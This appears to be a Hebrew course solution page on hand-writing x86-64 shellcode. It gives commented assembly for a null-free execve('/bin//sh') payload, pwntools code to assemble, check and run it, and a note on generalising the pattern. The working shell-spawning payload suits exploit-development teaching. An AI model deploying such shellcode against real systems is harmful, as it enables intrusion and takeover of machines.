

repository: AmitPinchasi/amittech · page: מחקר-חולשות/3 - Shellcode/3.1 - כתיבת shellcode ידני/3.1 - כתיבת shellcode ידני - פתרון/index.html · generator: mkdocs

## פתרון - כתיבת shellcode ידני

בפתרון נעבור על כל תרגיל: האסמבלי המלא עם הערות, פקודות ההרכבה, ואיך מוכיחים שנפתח shell. בסוף כל תרגיל נסביר למה זה עבד ואיך להכליל.

### פתרון תרגיל 1 - shellcode ל-x86-64

הרעיון: לאפס את הרגיסטרים שצריכים להיות `NULL`, לבנות את `"/bin//sh"` על המחסנית, להצביע אליה עם `rdi`, לשים `rax = 59`, ולהריץ `syscall`. הנה האסמבלי המלא:

```asm
_start:
    xor  rdx, rdx                 ; rdx = 0  ->  envp = NULL (argument 3)
    push rdx                      ; zero qword on the stack - terminates the string
    mov  rbx, 0x68732f2f6e69622f  ; "/bin//sh" (little-endian, no zero bytes)
    push rbx                      ; the string sits below the zero qword
    mov  rdi, rsp                 ; rdi -> "/bin//sh"  (argument 1)
    xor  rsi, rsi                 ; rsi = 0  ->  argv = NULL (argument 2)
    xor  eax, eax                 ; zero out all of rax
    mov  al, 59                   ; rax = 59  ->  execve syscall number
    syscall                       ; runs execve("/bin//sh", 0, 0)
```

הרכבה ובדיקת אפסים עם pwntools:

```python
from pwn import *
context.arch = 'amd64'

sc = asm('''
    xor  rdx, rdx
    push rdx
    mov  rbx, 0x68732f2f6e69622f
    push rbx
    mov  rdi, rsp
    xor  rsi, rsi
    xor  eax, eax
    mov  al, 59
    syscall
''')

print(len(sc), 'bytes')          # 27 bytes
print(sc.hex())                  # 4831d25248bb2f62696e2f2f7368...
assert b'\x00' not in sc         # passes - no zero bytes
```

הפלט הצפוי:

```text
27 bytes
4831d25248bb2f62696e2f2f736853 4889e74831f631c0b03b0f05
```

(רווח הוספתי רק לקריאוּת - זו מחרוזת אחת רציפה של 27 בתים.)

בדיקה שנפתח shell, ישירות מ-pwntools:

```python
p = run_shellcode(sc)
p.sendline(b'id')
print(p.recvline())              # uid=... gid=...
p.interactive()
```

**למה זה עבד**: כל בית אפס פוטנציאלי טופל. `xor eax, eax` + `mov al, 59` נותנים `rax = 59` בלי אפסים (במקום `mov rax, 59` שמייצר שלושה). את המחרוזת בת שמונה הבתים `"/bin//sh"` דחפנו כמקשה אחת, וה-`push rdx` לפניה סיפק את בית ה-`\0` המסיים. **איך להכליל**: אותה תבנית - לאפס, לבנות מחרוזת על המחסנית, syscall - עובדת לכל קריאת מערכת, לא רק `execve`. רק מספר הקריאה והארגומנטים משתנים.
